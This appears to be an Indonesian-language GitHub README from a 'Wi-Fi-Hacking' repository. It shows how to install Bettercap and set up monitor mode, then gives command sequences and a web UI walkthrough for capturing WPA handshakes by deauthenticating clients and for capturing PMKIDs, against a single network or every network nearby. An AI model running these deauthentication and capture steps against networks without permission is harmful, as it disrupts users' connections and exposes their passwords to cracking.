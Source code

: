 # Bettercap

![bettercap logo](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/bettercap%20logo.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install bettercap bettercap-dbgsym bettercap-caplets bettercap-ui
   bettercap -version
   ```

2. Menggunakan Go:

   Instalasi menggunakan Go harus sudah terinstal Go versi: `go1.24.7` atau lebih baru.
   
   ```
   sudo apt-get update
   sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
   go install github.com/bettercap/bettercap/v2@latest
   sudo mv ~/go/bin/bettercap /usr/local/bin/
   bettercap -version
   ```

Untuk informasi lebih lengkap, bisa dilihat di sini: [https://www.bettercap.org/project/installation/](https://www.bettercap.org/project/installation/)

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

### 1. Mode Interaktif

Mode interaktif adalah mode di Bettercap di mana Anda menggunakan sesi interaktif dan memasukkan perintah secara manual satu per satu.

```
sudo bettercap
```

> Jika muncul error `No active interfaces found.`, gunakan opsi `-iface [interface]`.

#### Capture Handshake

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth [bssid]
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth *
```

#### Capture PMKID

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

### 2. Opsi Caplet

Caplet adalah sekumpulan perintah Bettercap yang disimpan dalam file berekstensi `.cap`. Fungsinya untuk mengotomatisasi eksekusi perintah-perintah di Bettercap, sehingga tidak perlu mengetik perintah satu per satu secara manual.

```
sudo bettercap -caplet [file_caplet]
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

Contoh file capletnya ada di sini: [https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap)

### 3. Mode Web UI

Mode Web UI adalah mode di Bettercap yang menyediakan antarmuka web, sehingga kita bisa menggunakan Bettercap melalui browser.

```
sudo bettercap -eval "ui on"
```

1. Arahkan kursor ke link di bagian `web ui starting on`, yaitu `http://127.0.0.1:80`, kemudian klik kanan dan pilih `Open Link`.

   ![img 1](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%201.png)
2. Masukkan kredensial login:
   - Usermame: `user`
   - Password: `pass`

   ![img 2](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%202.png)
3. Klik ikon Wi-Fi:

   ![img 3](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%203.png)
4. Pilih interface yang ingin digunakan dengan klik menu dropdown:


   ![img 4](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%204.png)
5. Mulai scanning Wi-Fi dengan klik ikon play:

   ![img 5](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%205.png)
6. Di gambar ini ada beberapa bagian, yaitu:

   ![img 6](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%206.png)

   - `RSSI`: Kekuatan sinyal dari Access Point (AP) dalam satuan [dBm](https://en.wikipedia.org/wiki/DBm).
   - `ESSID`: Nama Wi-Fi.
   - `BSSID`: Alamat MAC unik dari AP.
   - `Vendor`: Produsen AP berdasarkan BSSID.
   - `Encryption`: Jenis enkripsi yang dipakai oleh Wi-Fi.
   - `Ch`: Channel yang dipakai oleh AP.
   - `Clients`: Jumlah klien yang terhubung ke AP.
   - `Sent`: Jumlah paket data yang dikirim dari klien ke AP.
   - `Recvd`: Jumlah paket data yang diterima dari AP oleh klien.
   - `Seent`: Jumlah paket yang terdeteksi dari klien atau AP selama proses pemantauan.
8. Pilih BSSID target yang ingin diserang, lalu klik menu dropdown:

   ![img 7](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%207.png)
9. Tersedia dua jenis serangan yang dapat dilakukan:
   - Capture Handshake
   - Capture PMKID
  
   ![img 8](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%208.png)

   Jika ingin Capture Handshake, klik `Deauthenticate Client`. Jika ingin Capture PMKID, klik `Associate`. Dalam contoh ini, kita akan pilih `Capture Handshake`.
   
   > Catatan:
   >
   > - Capture Handshake: Harus ada 1 klien yang aktif.
   > - Capture PMKID: Tidak semua router mendukung PMKID.
10. Setelah klik `Deauthenticate Client`, tunggu hingga handshake berhasil di-capture. Handshake dianggap berhasil jika muncul ikon `kunci merah` di bagian `Encryption` dan muncul notifikasi `Captured handshake for station...`:

    ![img 9](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%209.png)
    
11. Klik ikon Events:

    ![img 10](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%2010.png)
12. Klik salah satu dari 3 `Type` berwarna merah di bagian pesan `Captured handshake for...`:

    ![img 11](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%2011.png)
13. Dari gambar ini, terlihat bahwa file handshake disimpan di direktori `/root` dengan nama file `bettercap-wifi-handshakes.pcap`.

    ![img 12](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/tools/bettercap/img/ui%2012.png)
